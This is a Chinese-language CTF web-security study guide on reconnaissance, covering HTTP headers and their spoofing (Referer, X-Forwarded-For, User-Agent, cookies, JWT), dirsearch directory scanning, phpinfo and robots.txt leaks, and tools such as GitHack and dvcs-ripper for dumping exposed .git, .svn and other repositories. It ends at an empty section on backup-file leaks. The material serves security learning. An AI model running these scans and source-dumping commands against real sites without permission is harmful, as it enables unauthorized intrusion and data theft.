









# CTF_WEB_STUDY

# 1-信息收集/1-基础信息

## HTTP

### HTTP 报文

#### [HTTP 介绍](https://www.jianshu.com/p/3b02648d405b)

请求报文包括三部分:

```
请求行：包含请求方法,URI,HTTP版本协议

请求头：请求首部字段

请求正文：请求内容实体
```

响应报文包含三部分:

```
状态行：包含HTTP版本,状态码,状态码原因短语

响应头：响应首部字段

响应正文：响应内容实体
```

#### HTTP 通用头域

##### Cache-Control头域

 Cache-Control指定请求和响应遵循的缓存机制。在请求消息或响应消息中设置`Cache-Control`并不会修改另一个消息处理过程中的缓存处理过程。请求时的缓存指令包括`no-cache、no-store、max-age、max-stale、min-fresh、only-if-cached`，响应消息中的指令包括`public、private、no-cache、no-store、no-transform、must-revalidate、proxy-revalidate、max-age`

##### Date头域

 Date头域表示消息发送的时间，时间的描述格式由`rfc822`定义。例如，`Date:Mon,31Dec200104:25:57GMT`。Date描述的时间表示世界标准时，换算成本地时间，需要知道用户所在的时区。

##### Pragma头域

Pragma头域用来包含实现特定的指令，最常用的是`Pragma:no-cache`。在HTTP/1.1协议中，它的含义和`Cache-Control:no-cache`相同。

#### HTTP 请求消息

GET和HEAD应该被所有的通用WEB服务器支持，其他所有方法的实现是可选的。GET方法取回由Request-URI标识的信息。HEAD方法也是取回由Request-URI标识的信息，只是可以在响应时，不返回消息体。

POST方法可以请求服务器接收包含在请求中的实体信息，可以用于提交表单，向新闻组、BBS、邮件群组和数据库发送消息。

***

### HTTP头

#### Referer

##### [Referer 介绍](https://www.ruanyifeng.com/blog/2019/06/http-referer.html)

HTTP 请求的头信息里面，Referer是一个常见字段，提供访问来源的信息，给出"引荐网页"的 URL。即你是从哪里来到的此网页 

比如说这个网页



他的Referer就是

```
Referer: https://cn.bing.com/search?q=%e6%97%a5%e6%9c%ac%e5%ae%a2%e6%9c%ba%e5%8f%91%e7%94%9f%e7%a2%b0%e6%92%9e&qs=PN&sk=HS2&sc=10-0&cvid=FDB3B9BDACA149EEAA32FC6EB86AD924&FORM=QBLH&sp=3&lq=0
```

通过`https://cn.bing.com/`进行`search`

搜索的是什么，是

```
q=%e6%97%a5%e6%9c%ac%e5%ae%a2%e6%9c%ba%e5%8f%91%e7%94%9f%e7%a2%b0%e6%92%9e
```

经过解码就是日本客机发生碰撞



这就是Referer提供的信息

##### Referer 发生场景

浏览器向服务器请求资源的时候，`Referer`字段的逻辑是这样的，用户在地址栏输入网址，或者选中浏览器书签，就不发送`Referer`字段。

主要是以下三种场景，会发送`Referer`字段。

（1）用户点击网页上的链接。

（2）用户发送表单。

（3）网页加载静态资源，比如加载图片、脚本、样式。

##### Referer 信息泄露

举两个例子，一个是功能 URL，即有的 URL 不要登录，可以访问某个管理系统，就能直接完成密码重置、邮件退订等功能。另一个是内网 URL，不希望外部用户知道内网有这样的地址。`Referer`字段很可能把这些 URL 暴露出去。

##### Referer 伪造

一个典型的应用是，有些网站不允许图片外链，只有自家的网站才能显示图片，外部网站加载图片就会报错。它的实现就是基于`Referer`字段，如果该字段的网址是自家网址，就放行。

我们就可以利用这一特性进行伪造`Referer`以达到访问某些网站的目的

***

#### X-Forwarded-For

##### [X-Forwarded-For 介绍](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/X-Forwarded-For)

X-Forwarded-For(XFF)是一个 HTTP 扩展头部,用来表示 HTTP 请求端真实 IP，当客户端直接连接到服务器时，其 IP 地址被发送给服务器（并且经常被记录在服务器的访问日志中）。但是如果客户端通过正向或反向代理服务器进行连接，服务器就只能看到最后一个代理服务器的 IP 地址，这个 IP 通常没什么用。如果最后一个代理服务器是与服务器安装在同一台主机上的负载均衡服务器，则更是如此。`X-Forwarded-For` 的出现，就是为了向服务器提供更有用的客户端 IP 地址。

##### X-Forwarded-For 请求格式

X-Forwarded-For 请求头格式非常简单，就这样：

```
X-Forwarded-For: client, proxy1, proxy2
```

可以看到，XFF 的内容由「英文逗号 + 空格」隔开的多个部分组成，最开始的是离服务端最远的设备 IP，然后是每一级代理设备的 IP。

如果一个 HTTP 请求到达服务器之前，经过了三个代理 Proxy1、Proxy2、Proxy3，IP 分别为 IP1、IP2、IP3，用户真实 IP 为 IP0，那么按照 XFF 标准，服务端最终会收到以下信息：

```
X-Forwarded-For: IP0, IP1, IP2
```

如图



```
X-Forwarded-For: 36.110.25.116,220.181.38.148,105.16.35.100,101.25.48.201

                     客户端IP      proxy-ip      proxy-ip       proxy-ip
```

##### X-Forwarded-For 信息泄露

通过查看X-Forwarded-For信息，就可以获得用户的真实ip地址

##### X-Forwarded-For ip伪造

X-Forwarded-For 作为 HTTP 请求的扩展头，在请求的过程中可以被直接的进行修改。正常情况下，我们所获得的 X-Forwarded-For，第一部分应该是客户端 iP，但是如果客户端对 X-Forwarded-For 进行了修改，我们仍旧采用以上方法获得客户端 IP，那么客户端 IP 将会是被伪造过的。

通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件[通过修改XXF头可以实现伪造IP

###### X-Forwarded-For 注入

XFF注入属于SQL注入的一种，该注入原理是通过修改X-Forwarded-for头对带入系统的dns进行sql注入，达到欺骗服务器执行恶意的SQL命令的效果，从而可以得到网站的数据库内容。

***

#### User-Agent

##### [User-Agent 介绍](https://blog.csdn.net/Ssuper_X/article/details/109694479)

向服务器发送，包含了访问者系统引擎版本、浏览器信息的字段信息。一般服务器识别出是爬虫请求，会拒绝访问。所以此时设置User-Agent，可以将爬虫伪装成用户通过浏览器访问。

##### User-Agent 组成解释：

```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
组成：
User-Agent: Mozilla/5.0 (平台) 引擎版本 浏览器版本号
```

##### [User-Agent 列表](https://www.cnblogs.com/adolfmc/p/12052468.html)：

```
Firefox
Mozilla/5.0 (Windows NT 6.2; WOW64; rv:21.0) Gecko/20100101 Firefox/21.0

Chrome on Windows 	
Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.94 Safari/537.36

edge
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0

```

##### User-Agent 信息泄露：

通过查看网站的User-Agent，可以判别用户所使用的系统、浏览器等

##### User-Agent 伪造：

我们的爬虫程序，实际上是模拟浏览器对服务器发送请求来获取数据的。
在向服务器发送的网络请求中，User-Agent是客户端用于表明身份的一种标识。所以，反爬虫工程师可以将一些爬虫程序的请求头放入服务器访问的黑名单中，当有网络请求时通过检测User-Agent请求头域值来判断客户端的类型，将其与黑名单中数据进行比对，一致时则拒绝其访问，从而有效的限制一些爬虫程序。

User-Agent请求头域的值是可以修改的。Requests.get（）请求中有一个headers参数，可以将我们修改后的User-Agent加入，然后将爬虫程序伪装成浏览器，以此来骗过反爬虫程序。在爬虫中进行request请求，很多时候，都需要添加请求头，不然服务器会认为是非法的请求，从而拒绝你的访问。

***

#### Cookie

##### Cookie 介绍

cookie，是服务端保存在浏览器端的数据片段

一般情况下，cookie是以键值对进行表示的(key-value)，例如name=jack，这个就表示cookie的名字是name，cookie携带的值是jack。

Cookie 像是服务器发给浏览器的一张“会员卡”，浏览器每次向服务器发送请求时都会带着这张“会员卡”，当服务器看到这张“会员卡”时就可以识别浏览器的身份。实际上这个所谓的“会员卡”就是服务器发送的一个响应头：



如图 Set-Cookie 这个响应头就是服务器在向服务器发“会员卡”，这个响应头的名字是 `Set-Cookie `， 后 边 `JSESSIONID=95A92EC1D7CCB4ADFC24584CB316382E` 和 `Path=/Test_cookie`，是两组键值对的结构就是服务器为这个“会员卡”设置的信息。浏览器收到该信息后就会将它保存到内存或硬盘中。

当浏览器再次向服务器发送请求时就会携带这个 Cookie 信息



##### Cookie 生命周期

cookie有2种存储方式，一种是会话性，一种是持久性。

会话性：如果cookie为会话性，那么cookie仅会保存在客户端的内存中，当我们关闭客服端时cookie也就失效了
持久性：如果cookie为持久性，那么cookie会保存在用户的硬盘中，直至生存期结束或者用户主动将其销毁。

##### Cookie 信息泄露

有时候网站会在cookie里泄露管理员的账户密码或者其他隐私信息

##### Cookie 伪造

利用cookie我们就可以实现自动登录，保存游览历史，身份验证等功能。

例如：我们在不知道管理员账号密码情况下，我们知道了管理员登陆后的cookie，我们就可以利用这段cookie进行登录。

###### [伪造JWT](https://blog.csdn.net/Top_L398/article/details/109361680)

  JSON Web Token（JSON Web令牌）存储在cookie中，是一个开放标准(rfc7519)，它定义了一种紧凑的、自包含的方式，用于在各方之间以JSON对象安全地传输信息。此信息可以验证和信任，因为它是数字签名的。jwt可以使用秘密〈使用HNAC算法）或使用RSA或ECDSA的公钥/私钥对进行签名。

通过JSON形式作为Web应用中的令牌，用于在各方之间安全地将信息作为JSON对象传输。在数据传输过程中还可以完成数据加密、签名等相关处理

实战：[polar靶场web简单部分JWT](https://www.polarctf.com/#/page/challenges)

***

### [HTTP响应码](https://www.runoob.com/http/http-status-codes.html)

```
200：请求被正常处理
204：请求被受理但没有资源可以返回
206：客户端只是请求资源的一部分，服务器只对请求的部分资源执行GET方法，相应报文中通过Content-Range指定范围的资源。
301：永久性重定向
302：临时重定向
303：与302状态码有相似功能，只是它希望客户端在请求一个URI的时候，能通过GET方法重定向到另一个URI上
304：发送附带条件的请求时，条件不满足时返回，与重定向无关
307：临时重定向，与302类似，只是强制要求使用POST方法
400：请求报文语法有误，服务器无法识别
401：请求需要认证
403：请求的对应资源禁止被访问
404：服务器无法找到对应资源
500：服务器内部错误
503：服务器正忙
```

***

### HTTP 网页内容

在网页中会有大量的数据可供我们分析收集，重点留意用户名、账号、数字、邮箱等等敏感字眼，我们要留意进行分析

## URL参数

### URL 通用格式

```
<协议>：//<用户名>：<密码>@<主机域名或者ip地址>：<端口号>/<路径>；<参数>？<查询>#<片段>
```

最重要的是<协议><主机域名><路径>

### URL 格式解析

```
http://kali：kali@www.baidu.com:80/main/index.html；type=a；color=b？name=bob&id=123#main
```

协议http，主机域名`www.baidu.com`，资源路径/main/index.html

#### URL 协议

http（超文本传输协议）

ftp（文件传输协议）

rtsp（实时流传输协议）

telnet（远程登陆访问）等。

每个协议都遵循上述格式，只是有些协议的一些部分没有，如telnet协议就没有<参数>，<查询>，<片段>这几部分。

其中http也可以写做HTTP，大小写不影响

#### URL 用户名和密码

例子中的用户名和密码是kali：kali。比如我们使用ftp协议传输时就需要输入用户名和密码，但是我们的http协议中，如果把用户名和密码就放在url里，那很不安全，所以一般放在cookie里，这里就不详细说了，总之就是不经常使用。

#### URL 主机域名或者ip地址、端口

例子中的主机域名和端口是`www.baidu.com：80`，http协议的默认端口是80，端口就是开放服务的地方

#### URL 路径

路径就是文件路径，和我们文件管理器的命名方法一样，就是\ /不一样

路径就是`/main/index.html`

#### URL 参数

参数（params）一般使用“；”与路径分开，如果有多个参数也使用“；”分隔开。例子中的参数有两个，分别是type和color；type=a；color=b

我们访问一些资源，只有路径端口是不够的，有时候需要向解析url的应用程序提供参数才能去访问资源，如参数可能会定义传输格式等等。

#### URL 查询

查询（query）使用“？”与前边的东西分开，如果有多个查询的问题，需要使用“&”连接。

访问一些资源时，有些需要查询数据库进行搜索来缩小请求资源范围，就像我们查东西时指定关键字一样，例子中的查询语句是？name=bob&id=123

意思是，在该路径下，查询name=bob，id=123的资源。

## 审查元素

### 审查元素介绍

看到的就是最终的html代码。即：源代码 + 网页js渲染 。

在源代码中找不到的代码，是在浏览器执行js动态生成的。

当我们在爬虫时需要对js在加载的数据进行爬取时，就不能像普通爬虫一样进行获取了，这时通常有**两种方法**：

```
通过selenum自动化技术

通过在页面上进行抓包，获取js链接以及表单元素进行请求
```

### [JS敏感信息泄露](https://zhuanlan.zhihu.com/p/51176109)

比如通过JS泄露敏感信息，攻击者不仅可以轻松收集用户手机号，姓名等隐私信息，更可以借此攻入企业后台甚至是getshell

#### JS文件泄露后台管理敏感路径及API

#### 页面内JS泄露http-only保护的cookie

#### 页面内JS以及AJAX请求泄露用户敏感信息

## 检查网页源代码

别人服务器发送到浏览器的原封不动的代码，也就是最原始的代码。

有些源代码中可能会有敏感信息泄露

***

# 1-信息收集/2-文件读取/1-目录扫描

## 介绍

目录扫描可以让我们发现这个网站存在多少个目录，多少个页面，探索出网站的整体结构。通过目录扫描我们还能扫描敏感文件，后台文件，数据库文件，和信息泄露文件，等等。

扫描的方式就是通过设置字典进行撞库匹配，探索网站的目录结构。字典需要靠平时积累，有时候会遇见一些骚气的目录，加进去就行。再就是要根据你所扫描的网站的特点构造专门的字典，所以**目录扫描的重点是字典的设置**

## 工具

###### [御剑（两个）](https://blog.csdn.net/qq_45076423/article/details/103018509#:~:text=%E6%88%91%E4%BB%AC%E4%BD%BF%E7%94%A8%E5%BE%A1%E5%89%91%E6%89%AB%E6%8F%8F%E5%99%A8%EF%BC%8C%E4%B8%BB%E8%A6%81%E6%98%AF%E6%89%AB%E6%8F%8F%E7%BD%91%E7%AB%99%E6%95%8F%E6%84%9F%E7%9B%AE%E5%BD%95%EF%BC%8C%E5%8C%85%E6%8B%AC%E7%BD%91%E7%AB%99%E5%90%8E%E5%8F%B0%E7%AD%89%E3%80%82%20%E5%85%B6%E6%89%AB%E6%8F%8F%E5%8E%9F%E7%90%86%E4%B9%9F%E6%98%AF%E7%88%86%E7%A0%B4%EF%BC%8C%E5%8D%B3%E9%80%9A%E8%BF%87%E6%95%8F%E6%84%9F%E7%9B%AE%E5%BD%95%E7%9A%84%E5%AD%97%E5%85%B8%E5%8E%BB%E5%8C%B9%E9%85%8D%E3%80%82%20%E5%BE%A1%E5%89%91%E5%90%8E%E5%8F%B0%E6%89%AB%E6%8F%8F%E4%B9%8B%E5%89%8D%EF%BC%8C%E7%88%AC%E8%99%AB%E4%BC%9A%E8%AE%BF%E9%97%AErobots%20txt%E6%96%87%E4%BB%B6%E3%80%82,1%E3%80%81%E4%B8%8B%E8%BD%BD%E5%B9%B6%E8%A7%A3%E5%8E%8B%E6%89%93%E5%BC%80%E8%BD%AF%E4%BB%B6%202%E3%80%81%E6%89%93%E5%BC%80%E4%BB%A5%E5%90%8E%E5%9C%A8%E5%9F%9F%E5%90%8D%E8%BE%93%E5%85%A5%E6%A1%86%E4%B8%AD%E5%A1%AB%E5%85%A5%E8%A6%81%E6%89%AB%E6%8F%8F%E7%9A%84%E5%90%8E%E5%8F%B0%E5%9C%B0%E5%9D%80%203%E3%80%81%E5%9C%A8%E4%B8%8B%E9%9D%A2%E5%8F%AF%E4%BB%A5%E9%80%89%E6%8B%A9%E6%89%AB%E6%8F%8F%E7%BA%BF%E7%A8%8B%E4%BB%A5%E5%8F%8A%E6%89%AB%E6%8F%8F%E8%B6%85%E6%97%B6%E9%97%B4%EF%BC%8C%E8%BF%98%E6%9C%89%E6%96%87%E4%BB%B6%E7%B1%BB%E5%9E%8B%E7%AD%89%204%E3%80%81%E5%85%A8%E9%83%A8%E9%80%89%E6%8B%A9%E5%A5%BD%E4%BB%A5%E5%90%8E%E5%B0%B1%E5%8F%AF%E4%BB%A5%E7%82%B9%E5%87%BB%E5%BC%80%E5%A7%8B%E6%89%AB%E6%8F%8F%E4%BA%86%E3%80%82)

使用御剑扫描器，主要是扫描网站敏感目录，包括网站后台等。其扫描原理也是爆破，即通过敏感目录的字典去匹配。

御剑有好多版本，功能也稍微有些许区别，有指纹识别、后台扫描、获取真实IP、检测注入等

配置文件里面是字典，可以添加和删除。


###### [dirsearch](https://blog.csdn.net/anquanzushiye/article/details/104151644)

dirsearch是一个扫描网站的目录和文件的命令行工具，推荐在kali中使用，可以使用多线程快速扫描目标站点。它可以通过自定义字典进行扫描，同时支持正则表达式和自定义扩展名。

个人觉得最好的目录扫描工具

使用教程：

在终端中运行以下命令，使用kali中的dirsearch扫描目标URL

```linux
dirsearch -u <URL>
```

例如：

```
dirsearch -u http://www.baidu.com
```

更多的参数选项

```
-e：指定要排除的扩展名
例如：排除.html和.php文件
dirsearch -u http://www.baidu.com -e html,php

-f：指定要包含的拓展名
例如：只包含.html和.php文件
dirsearch -u http://www.baidu.com -f html,php

-x：指定要排除的目录
例如：排除index.php目录
dirsearch -u http://www.baidu.com -x index.php

-t：指定线程数
例如：使用50线程进行扫描
dirsearch -u http://www.baidu.com -t 50

-o：保存结果到某文件
例如：保存结果到result.txt文件
dirsearch -u http://www.baidu.com -o result.txt

-w WORDLIST：使用自定义字典
例如：设置passwd.txt为字典进行扫描
dirsearch -u http://www.baidu.com -w passwd.txt
```

汇总：

| 后缀          | 介绍                             |
| ------------- | -------------------------------- |
| -h            | 查看帮助                         |
| -u URL        | 设置url                          |
| -L URLLIST    | 设置url列表                      |
| -e EXTENSIONS | 网站脚本类型                     |
| -w WORDLIST   | 设置字典                         |
| -f            | 强制扩展字典里的每个词条         |
| -s DELAY      | 设置请求之间的延时               |
| -r            | 递归地扫描                       |
| -t            | 设置扫描线程                     |
| -x            | 排除指定的网站状态码(用逗号隔开) |
| -c            | 设置cookie                       |
| -F            | 跟随地址重定向扫描               |
| -H            | 设置请求头                       |

###### **[postman](https://zhuanlan.zhihu.com/p/401385193)**

[关于目录扫描的使用](https://blog.csdn.net/cai_iac/article/details/81030619)即自动化接口测试

其原理就是构建js脚本进行批量发送请求，并利用js脚本进行对返回状态的分析

目前用的较少，总结一下就是会用的很厉害，不会就是不会

***

***

# 1-信息收集/2-文件读取/2-敏感信息

## phpinfo

### phpinfo 描述

Phpinfo函数信息泄露漏洞常发生一些默认的安装包，比如php study等，默认安装完成后，没有及时删除这些提供环境测试的文件，比较常见的为phpinfo.php、1.php和test.php，虽然通过phpinfo获取的php环境以及变量等信息，但这些信息的泄露配合一些其它漏洞将有可能导致系统被渗透和提权。

phpinfo()函数返回的信息中包含了服务器的配置信息，包括：

```
1）PHP编译选项以及文件扩展名的相关信息；

2）php的版本信息

3）php的配置信息；

4）数据库信息；等敏感信息。这些敏感信息会帮助攻击者展开进一步的攻击。
```

### phpinfo 检测方法

如果网站存在该漏洞，通常通过扫描工具进行扫描可得到链接。

### [phpinfo 信息泄露](https://blog.51cto.com/z2ppp/2063173)

#### 操作系统版本


#### 网站真实ip

当网站使用cdn或群集时，那么该文件会显示网站真实ip地址
 

#### 网站路径

当网站绝对路径泄漏时，如果能写webshell，则可以直接getshell；

当日志文件路径泄露时，如果存在文件包含，则直接包含日志文件getshell
 

#### 应用信息

通过phpinfo可以查看到支持的特殊服务，例如:redis、fastcgi、memcache、ImageMagick等。

如果存在redis、memcache等则可尝试未授权访问获取信息
如果存在fastcgi，则可尝试远程代码执行
如果使用了ImageMagick，则可根据版本尝试远程代码执行

#### 一些敏感配置



#### php版本信息

php版本信息，每个php版本都有变化和特性，像php5.3.4以下 + magic_quotes_gpc off 可%00截断

***

## robots.txt

### robots.txt 介绍

robots.txt 文件是专门针对搜索引擎机器人robot 编写的一个纯文本文件。

我们可以在这个文件中指定网站中不想被robot访问的目录。

这样，我们网站的部分或全部内容就可以不被搜索引擎收录了，或者让搜索引擎只收录指定的内容。

因此我们可以利用robots.txt让Google的机器人访问不了我们网站上的重要文件，Google Hack的威胁也就不存在了。

### robots.txt 信息泄露

假如robots.txt文件内容如下：

```
···
User-agent：*
Disallow: /data/
Disallow: /db/
Disallow: /admin/
Disallow: /manager/
···
```

其中“Disallow”参数后面的是禁止robot收录部分的路径，**例如**我们要让robot禁止收录网站目录下的“data”文件夹，只需要在Disallow参数后面加上 /data/ 即可。如果想增加其他目录，只需按此格式继续添加。

文件编写完成后将其上传到网站的根目录，就可以让网站远离Google Hack了。

虽然robots文件目的是让搜索蜘蛛不想爬取想要保护的页面，但是如果我们知道了robots文件的内容的话，我们就可以知道目标网站那些文件夹不让访问，从侧面来说这些文件夹就是非常重要的了。

***

# 1-信息收集/2-文件读取/3-源码泄露

## Git 源码泄露

### 介绍

Git是一个开源的分布式版本控制系统，在执行git init初始化目录的时候，会在当前目录下自动创建一个.git目录，用来记录代码的变更记录等。发布代码的时候，如果没有把.git这个目录删除，就直接发布到了服务器上，攻击者就可以通过它来恢复源代码。

使用dirsearch工具扫描后台，如果存在则会扫描出 .git 目录

```
HEAD：这个git项目当前处在哪个分支里；

config：文件包含项目特有的配置选项，git config命令会改动它；

description：项目的描述信息

hooks/：系统默认钩子脚本目录

info/：目录包含一个全局性排除（global exclude）文件，用以放置不希望被记录在 .gitignore 文件中的忽略模式（ignored patterns）

objects/：目录存储所有数据内容 (commits, trees, blobs, tags)

refs/：标识你项目里的每个分支指向了哪个提交(commit)。

index:文件保存暂存区信息
```


### 漏洞利用工具

#### [GitHack](https://github.com/lijiejie/GitHack)

GitHack 是一个 .git 泄露利用脚本，通过泄露的 .git 文件夹下的文件重建还原工程源代码

用法示例：

```text
GitHack.py http://www.openssl.org/.git/
```

GitHack 是一个 .git 泄露利用脚本，通过泄露的 .git 文件夹下的文件重建还原工程源代码

#### [GitHacker](https://github.com/wangyihang/GitHacker)

#### [dvcs-ripper](https://github.com/kost/dvcs-ripper)

[用法示例：](https://blog.csdn.net/m0_51191308/article/details/127357885)

```
rip-git.pl -v -u http://www.example.com/.git/
```

此工具集合了多种漏洞利用工具，包括bzr、cvs、git、hg、svn，比较推荐使用

#### [Dumpall](https://github.com/0xHJK/dumpall)

适用于.git/.svn/.DS_Store泄漏和目录列出       

***

## SVN 源码泄露

### 介绍

SVN是一个开放源代码的版本控制系统。在使用SVN管理本地代码过程中，会自动生成一个名为.svn的隐藏文件夹，其中包含重要的源代码信息。网站管理员在发布代码时，没有使用‘导出’功能，而是直接复制代码文件夹到WEB服务器上，这就使.svn隐藏文件夹被暴露于外网环境，可以利用.svn/entries文件，获取到服务器源码。

使用工具AWVS，可以探测出来

### 漏洞利用工具

#### [SvnHack](https://github.com/callmefeifei/SvnHack)

#### [SvnExploit](https://github.com/admintony/svnExploit)

#### [Seay SVN](https://www.lanzoux.com/iY8i6hkptqh)

#### [Dumpall](https://github.com/0xHJK/dumpall)

#### [dvcs-ripper](https://github.com/kost/dvcs-ripper)

用法示例：

```text
rip-svn.pl -v -u http://www.example.com/.svn/
```

***

## HG 源码泄漏

### 介绍

Mercurial 是一种轻量级分布式版本控制系统，使用 `hg init`的时候会生成.hg。当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。

### 漏洞利用工具

#### [dvcs-ripper](https://github.com/kost/dvcs-ripper)

用法示例：

```text
rip-hg.pl -v -u http://www.example.com/.hg/
```

***

## CVS 泄露

### 介绍

CVS是一个C/S系统，多个开发人员通过一个中心版本控制系统来记录文件版本，从而达到保证文件同步的目的。主要是针对 CVS/Root以及CVS/Entries目录，直接就可以看到泄露的信息。

cvs项目在初始化(cvs checkout project)的时候, 会在project目录下创建一个名为CVS的目录,其中保存了各个文件的修改和commit记录. 通过此目录可以获取代码的历史版本. 其中两个关键文件为:
CVS/Root和CVS/Entries, 分别记录了项目的根信息和所有文件的结构

### 漏洞利用工具

#### [dvcs-ripper](https://github.com/kost/dvcs-ripper)

运行示例:

```text
rip-cvs.pl -v -u http://www.example.com/CVS/
```

***

## Bazaar/bzr 泄露

### 介绍

Bazaar是一种[分布式版本控制系统](https://so.csdn.net/so/search?q=分布式版本控制系统&spm=1001.2101.3001.7020)，类似于Git和Mercurial，Bzr泄露是指在使用Bazaar版本控制系统时，由于配置不当或操作失误，导致敏感信息（如源代码、密码等）被泄露到公共仓库或其他不安全的地方。这种泄露可能会导致项目的知识产权受损，甚至影响到项目的安全性。

### 漏洞利用工具

#### [dvcs-ripper](https://github.com/kost/dvcs-ripper)

运行示例:

```
rip-bzr.pl -v -u http://www.example.com/.bzr/
```

***

## DS_Store 泄露

### 介绍

.DS_Store是Mac OS保存文件夹的自定义属性的隐藏文件，如文件的图标位置或背景色，相当于Windows的desktop.ini。
由于开发人员发布代码时未删除文件夹中隐藏的.DS_store，可能造成文件目录结构泄漏、源代码文件等敏感信息的泄露。

### 漏洞利用工具

#### [ds_store_exp](

https://github.com/lijiejie/ds_store_exp
)

[使用教程:](https://blog.csdn.net/m0_60571842/article/details/132404138)

```bash
python ds_store_exp.py http://www.example.com/.DS_Store
```

#### [Dumpall](https://github.com/0xHJK/dumpall)

***

## 备份文件 泄露

### 介绍

